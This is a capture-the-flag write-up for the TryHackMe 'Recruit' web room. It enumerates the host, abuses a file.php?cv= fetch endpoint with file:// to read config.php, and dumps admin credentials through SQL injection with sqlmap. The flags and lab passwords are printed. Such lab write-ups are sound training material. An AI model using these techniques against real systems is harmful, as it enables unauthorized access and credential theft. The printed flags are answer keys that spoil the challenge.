









# Recruit Writeup

[](https://tryhackme.com/room/recruitwebchallenge)
[](#)

> Room Link → [Recruit](https://tryhackme.com/room/recruitwebchallenge)

# Recruit

## Introduction

**Recruit** has just launched its new recruitment portal, allowing HR staff to manage candidate applications and administrators to oversee hiring decisions. While the platform appears functional, management suspects that security may have been overlooked during development. Your task is to assess the application like a real attacker, mapping its structure, abusing exposed functionality, and exploiting vulnerabilities.

Can you gain an initial foothold, escalate your access, and ultimately log in as the **administrator?**

---

## TL;DR

### Flags

Q. What is the flag value after logging in as a normal user?
--> `THM{LOGGED_IN_USER}`

Q. What is the flag value after logging in as admin?
--> `THM{LOGGED_IN_ADM1N1}`

---

## Enumeration

As always, let's do a `rustscan`

Command:

```bash
rustscan -a [IP_ADDRESS] -- -sCV -oN rust
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e8:a7:6a:61:8d:cf:6f:d1:5d:f9:5f:8c:1e:46:9e:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC9Rhj6d9poKslXeMEtQNNkLbGESar0S1mJ/c6VAS05BUnexT0korP2pqrlgukgQGExNGOqLmDRE74che6XarMYRxp0qI7g3+KApxeuenaT2/akuosGmbSQzU6uwgqBZAKWON7e5l8uiVHCokJ6zcEXhKJ4fUsghlLb75HmxHOquFmcWN2VxOEbO4d9R019gIXlf3RIIljck6Ryy/COt8J6WpoMygDkyWqyUyLx9OLL1d2tY+7O9d0ZPIg/Kqx+sMDruhQmPuJSMuUverYq4nqErYv1Emhpl9XR8Kxn5FKK1pUJUerDrONQYaNc9Pho8xAcZDfh+73/tJO2CJzP4g63T0HC6zEieI/I1i8Jw4CoucsnHxt5b7BGIIKp3kwrM6bARriyriSfObaJYkzAh3PtDRNgtX8F6S+ftha6jws5DGZ5bBG+KrXjlX/o22TN73Ep2b6RvSz5pFQh5AdTfTVECn977S06RE16E4bLoejvN92RWXb2cBd1oZ9CyxsUHpM=
|   256 7c:3f:9b:81:26:3b:44:36:49:0b:97:ae:a3:54:cb:d1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGyZQx4/vQBZRW59oZxQUYLPWstw0dq+uua8slgYUaEgD47AgBc7BmOioq9DRPuu5GaxspGat6FBDSnWVfAD5c8=
|   256 f8:b7:dc:2a:39:5a:b9:40:28:d6:e2:56:be:0a:21:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOyt2edfoZ5/8eBFb22mTp5JviUh5FVTKm+q+EuBrrf0
53/tcp open  domain  syn-ack ttl 62 ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Recruit
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Okay, so we got three open ports which are:

1. `22` : `ssh`
2. `53` : **DNS**
3. `80` : `http`

Let's dive into the web part.
And we're greeted with a Login page



When we go to the `api.php`: `Access API` endpoint we see a FAQ about `Recruit API`



So now let's try to search for any useful directories on the host

> [!IMPORTANT]
> Before moving further Please add the IP and host in `/etc/hosts`

```bash
[IP_ADDRESS] recruit.thm
```

Command:

```bash
gobuster dir -u http://recruit.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 80 -x .php, .js, .html | tee dir_scan
```

Here's what we got

```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://recruit.thm/
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta.php             (Status: 403) [Size: 278]
.hta                 (Status: 403) [Size: 278]
.hta.                (Status: 403) [Size: 278]
.htpasswd.           (Status: 403) [Size: 278]
.htpasswd.php        (Status: 403) [Size: 278]
.htaccess.           (Status: 403) [Size: 278]
.htpasswd            (Status: 403) [Size: 278]
.htaccess.php        (Status: 403) [Size: 278]
.htaccess            (Status: 403) [Size: 278]
api.php              (Status: 200) [Size: 4151]
assets               (Status: 301) [Size: 315] [--> http://recruit.thm/assets/]
config.php           (Status: 200) [Size: 0]
dashboard.php        (Status: 302) [Size: 457] [--> index.php]
file.php             (Status: 200) [Size: 20]
footer.php           (Status: 200) [Size: 289]
header.php           (Status: 200) [Size: 457]
index.php            (Status: 200) [Size: 1417]
index.php            (Status: 200) [Size: 1417]
javascript           (Status: 301) [Size: 319] [--> http://recruit.thm/javascript/]
logout.php           (Status: 302) [Size: 0] [--> index.php]
mail                 (Status: 301) [Size: 313] [--> http://recruit.thm/mail/]
phpmyadmin           (Status: 301) [Size: 319] [--> http://recruit.thm/phpmyadmin/]
server-status        (Status: 403) [Size: 278]
sitemap.xml          (Status: 200) [Size: 1710]
===============================================================
Finished
===============================================================
```

Nothing from the above was useful except the `mail` endpoint which has this `mail.log` file in which the given mail was found:

```plain
May 14 09:32:11 recruit-server postfix/smtpd[2143]: connect from hr-workstation.local[10.10.5.23]
May 14 09:32:12 recruit-server postfix/smtpd[2143]: 4F1A2203F: client=hr-workstation.local[10.10.5.23]
May 14 09:32:13 recruit-server postfix/cleanup[2146]: 4F1A2203F: message-id=<20240514093213.4F1A2203F@recruit.local>
May 14 09:32:13 recruit-server postfix/qmgr[1789]: 4F1A2203F: from=<hr@recruit.thm>, size=1824, nrcpt=1 (queue active)
May 14 09:32:14 recruit-server postfix/local[2151]: 4F1A2203F: to=<it-support@recruit.local>, relay=local, delay=0.34, status=sent

------------------------------------------------------------
From: HR Team <hr@recruit.thm>
To: IT Support <it-support@recruit.thm>
Date: Tue, 14 May 2024 09:32:10 +0000
Subject: Recruitment Portal Deployment Confirmation

Hi Team,

Just a quick update to confirm that the new Recruitment Portal
has been deployed successfully and is functioning as expected.

We’ve completed basic validation:
- Login page is accessible
- Candidate dashboard loads correctly
- API documentation page is live

As discussed during deployment:
- HR login credentials (username: hr) are currently stored in the application
  configuration file (config.php) for ease of access during
  the initial rollout phase.
- Administrator credentials are NOT stored in the application
  files and are securely maintained within the backend database.

Please let us know if there are any issues or if further changes
are required.

Thanks,
HR Operations
Recruitment Team
------------------------------------------------------------

May 14 09:32:14 recruit-server postfix/qmgr[1789]: 4F1A2203F: removed
```

By which we can conclude that the application config file `config.php` still has a credential with username `hr` now about password let's try to brute force it with hydra.

Okay the brute force failed but, You see it says that the `config.php` file has `hardcoded` creds of the `HR` so i.e. if we get hold of the `config.php` file then we can get the credentials.

## Exploitation

The `Access API` page says `The Recruit API is used internally to fetch and process candidate CVs from external sources during the recruitment process.` that means if we try to fetch something in form of `cv` then we can get hold of docs BUT HOWWW???

Ok so for that I was trying to read the second FAQ given in `Access API` page but idk why it wasn't loading so with the help of page source I got to know about other FAQs

```html
<!-- FAQ 2 -->
<div class="accordion-item">
  <h2 class="accordion-header" id="faqTwo">
    <button
      class="accordion-button collapsed"
      type="button"
      data-bs-toggle="collapse"
      data-bs-target="#collapseTwo"
    >
      How can I fetch a candidate CV using the API?
    </button>
  </h2>
  <div
    id="collapseTwo"
    class="accordion-collapse collapse"
    data-bs-parent="#apiFaq"
  >
    <div class="accordion-body">
      You can fetch a candidate CV using the following endpoint:
      <pre class="mt-2"><code>/file.php?cv=&lt;URL&gt;</code></pre>
    </div>
  </div>
</div>

<!-- FAQ 3 -->
<div class="accordion-item">
  <h2 class="accordion-header" id="faqThree">
    <button
      class="accordion-button collapsed"
      type="button"
      data-bs-toggle="collapse"
      data-bs-target="#collapseThree"
    >
      What kind of URLs are supported?
    </button>
  </h2>
  <div
    id="collapseThree"
    class="accordion-collapse collapse"
    data-bs-parent="#apiFaq"
  >
    <div class="accordion-body">
      The API supports fetching CVs from external URLs such as HTTP and HTTPS.
    </div>
  </div>
</div>

<!-- FAQ 4 -->
<div class="accordion-item">
  <h2 class="accordion-header" id="faqFour">
    <button
      class="accordion-button collapsed"
      type="button"
      data-bs-toggle="collapse"
      data-bs-target="#collapseFour"
    >
      Are there any security restrictions?
    </button>
  </h2>
  <div
    id="collapseFour"
    class="accordion-collapse collapse"
    data-bs-parent="#apiFaq"
  >
    <div class="accordion-body">
      Requests targeting restricted locations may be blocked by the API.
    </div>
  </div>
</div>
```

So now we know that we can fetch `cv` using this:
You can fetch a candidate CV using the following endpoint:

```plain
/file.php?cv=&lt;URL&gt;
```

Now let's try the same for `config.php`:



It says `Only local files are allowed` hmmmmmmmmmmmm..
so here we can use the idea of how we load files in our browsers without dragging them from their location
I mean we use something like `file:///` right?, So let's try that also:

The `file:///` protocol gives "access denied," but `file://` works here



And thus we got the creds of HR:

- `Username` : `hr`
- `Password` : `hrpassword123`

It's time to log in ----------------------------------------------------->

And look at here we have got our first flag:



Thus
Q. What is the flag value after logging in as a normal user?
--> `THM{LOGGED_IN_USER}`

---

## Privilege Escalation

Now we got to get into the **backend** as the _admin creds_ are in the backend which was written in the mail that we got from `mail.log`

We are given a search bar and a list of candidates so I tried different `sqli` string and we got to know that the backend is `MySQL` and `sqli` vulnerable so to use this with `sqlmap` we need to get this cookies and all to a file that we can throw at `sqlmap` for further enumeration

To do this follow the given steps:

1. Get the request in `burp`
   
2. Copy the Request to a file `Right-click` and `copy to file`
   
   - You can see I saved it as `req`

   ```bash
       └─$ cat req
       GET /dashboard.php?search= HTTP/1.1
       Host: recruit.thm
       User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
       Accept: text/html,application/xhtml+xml,application/xml;q=0.9,_/_;q=0.8
       Accept-Language: en-US,en;q=0.5
       Accept-Encoding: gzip, deflate, br
       Referer: http://recruit.thm/dashboard.php?search=%27+UNION+SELECT+username%2C+password+FROM+users--
       Connection: keep-alive
       Cookie: PHPSESSID=3qrd00tk11seo00jna9kcugavo
       Upgrade-Insecure-Requests: 1
       Priority: u=0, i

   ```

3. Use `sqlmap` command to get DB info and with attaching our session
   by using the given command

   ```bash
       └─$ sqlmap -r req --batch --dump
   ```

   ```bash
   Database: recruit_db
   Table: users
   [1 entry]
   +----+----------------+----------+
   | id | password       | username |
   +----+----------------+----------+
   | 1  | admin@001admin | admin    |
   +----+----------------+----------+

   [08:42:21] [INFO] table 'recruit_db.users' dumped to CSV file '/home/undead-ghost/.local/share/sqlmap/output/recruit.thm/dump/recruit_db/users.csv'
   [08:42:21] [INFO] fetching columns for table 'candidates' in database 'recruit_db'
   [08:42:21] [INFO] fetching entries for table 'candidates' in database 'recruit_db'
   Database: recruit_db
   Table: candidates
   [4 entries]
   +----+---------------+--------------+--------------------+
   | id | name          | status       | position           |
   +----+---------------+--------------+--------------------+
   | 1  | Alice Johnson | Approved     | Frontend Developer |
   | 2  | Bob Smith     | Under Review | Backend Developer  |
   | 3  | Charlie Brown | Rejected     | Security Analyst   |
   | 4  | Diana Prince  | Selected     | HR Executive       |
   +----+---------------+--------------+--------------------+
   ```

The IMPORTANT thing we got are the creds of **_ADMIN_**

- `Password` : `admin@001admin`
- `Username` : `admin`

> Log in using above creds and we get the final flag

WOOOOHOOOOO!!! WE GOT THE FINAL FLAG...



Q. What is the flag value after logging in as admin?
--> `THM{LOGGED_IN_ADM1N1}`

> [!IMPORTANT]
> I am going to **_accept_** all candidates here because I know how hurtful that **_regret_** mail is 😓

All are accepted even the REJECTED ones 😁😁😁



> [!TIP]
> This is the final flag **Approving** all.

---

## Conclusion

Thus we solved it!!

Happy hacking 📃📂!
